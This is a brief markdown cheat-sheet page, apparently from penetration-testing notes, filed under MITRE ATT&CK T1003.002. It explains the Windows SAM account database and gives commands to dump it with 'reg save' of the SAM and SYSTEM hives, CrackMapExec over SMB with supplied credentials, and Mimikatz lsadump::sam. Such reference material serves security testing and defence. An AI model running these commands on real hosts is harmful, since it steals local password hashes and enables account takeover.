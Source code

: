 ```yaml
---
description: MITRE ATT&CK, Credential Access, Sub-technique T1003.002
---
```


# Security Account Manager (SAM)

The SAM is a database file that contains local accounts for the host, typically those found with the `net user` command.

### Dumping the SAM

```bash
# Manually extracting the SAM
reg save HKLM\sam sam
reg save HKLM\system system

# Dumping the SAM remotely with CrackMapExec
crackmapexec smb $ip -u $username -p $password --sam

# Dumping the SAM with Mimikatz
mimikatz lsadump::sam
```
